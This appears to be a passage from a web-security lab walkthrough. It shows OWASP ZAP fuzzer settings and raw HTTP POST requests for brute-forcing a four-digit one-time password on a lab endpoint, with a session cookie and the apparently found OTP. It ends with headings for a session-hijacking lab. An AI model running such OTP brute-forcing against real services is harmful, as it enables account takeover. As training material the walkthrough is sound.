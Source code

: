 `zaproxy` > `Fuzzer` > `Fuzz Locations` = `Add` = `Type: Numberzz`, `From: 1000`, `To: 9999`, `Increment: 1` > `Message Processors` = `Add` = `Type: Tag Creator`, `Match: Regex: .*failed*.`, `Tag: Failed` > `Start Fuzzer`

`HTTP Request`:
```http
POST https://zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com/dev/verify HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 165
Origin: https://zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com
Connection: keep-alive
Referer: https://zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com/dev?otp=1234
Cookie: SESSIONID=Z0FBQUFBQm5SeTlpUTdDaFR1b0w5cTVyQ09nWDA2Y2RsSjl2bUFrMXA2T2g2bzJoU3ZScjQ1ZW83V2dQTTVSblFyTUV3T2NpeThOUkpBa0ttYV9wR3VaaFhaUmlBNkhCWmc9PQ==
Host: zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com

{"sessionid":"Z0FBQUFBQm5SeTlpUTdDaFR1b0w5cTVyQ09nWDA2Y2RsSjl2bUFrMXA2T2g2bzJoU3ZScjQ1ZW83V2dQTTVSblFyTUV3T2NpeThOUkpBa0ttYV9wR3VaaFhaUmlBNkhCWmc9PQ==","otp":"§1234§"} 📌
```
`HTTP Request`:
```http
POST https://zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com/dev/verify HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 165
Origin: https://zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com
Connection: keep-alive
Referer: https://zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com/dev?otp=1234
Cookie: SESSIONID=Z0FBQUFBQm5SeTlpUTdDaFR1b0w5cTVyQ09nWDA2Y2RsSjl2bUFrMXA2T2g2bzJoU3ZScjQ1ZW83V2dQTTVSblFyTUV3T2NpeThOUkpBa0ttYV9wR3VaaFhaUmlBNkhCWmc9PQ==
Host: zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com

{"sessionid":"Z0FBQUFBQm5SeTlpUTdDaFR1b0w5cTVyQ09nWDA2Y2RsSjl2bUFrMXA2T2g2bzJoU3ZScjQ1ZW83V2dQTTVSblFyTUV3T2NpeThOUkpBa0ttYV9wR3VaaFhaUmlBNkhCWmc9PQ==","otp":"2999"} 🔑
```

---

## Session Security

### Session Hijacking Via Cookie Tampering

#### Lab Environment

**Improper Session Management III**
